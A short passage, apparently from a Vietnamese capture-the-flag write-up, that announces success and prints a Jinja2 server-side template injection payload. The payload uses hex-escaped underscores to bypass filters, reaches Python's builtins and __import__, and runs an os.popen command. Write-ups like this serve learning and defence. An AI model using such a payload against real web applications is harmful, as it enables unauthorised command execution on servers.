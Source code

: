 ![alt text](image-36.png)
Thành công rồi.
Tới đay thì cứ theo từng bước để lấy cờ thôi.
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}`